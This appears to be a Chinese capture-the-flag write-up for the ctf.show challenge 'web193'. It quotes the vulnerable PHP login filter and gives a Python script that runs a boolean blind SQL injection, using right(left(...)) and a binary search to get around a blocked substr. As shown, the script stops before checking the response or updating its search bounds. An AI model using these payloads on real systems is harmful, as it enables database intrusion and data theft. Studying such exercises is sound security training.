 ## web193（布尔注入，过滤了substr）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```
过滤了substr，考虑组合使用left和right
```python
'''
Author: KonDream
Date: 2021-12-09 21:50:47
LastEditors:  KonDream
LastEditTime: 2021-12-09 21:55:53
Description:  
'''
import requests

url = 'http://06d98f3c-f61b-4e72-8d11-a5c0acaba6f2.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_flxg,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'"
# 爆字段
payload = "select f1ag from ctfshow_flxg"


for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            #  right(left('abc', i),1); 取第i位
            'username':"1' or if(right(left(({}), {}), 1) > '{}', 1, 0)-- -".format(payload, i, chr(mid)),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
```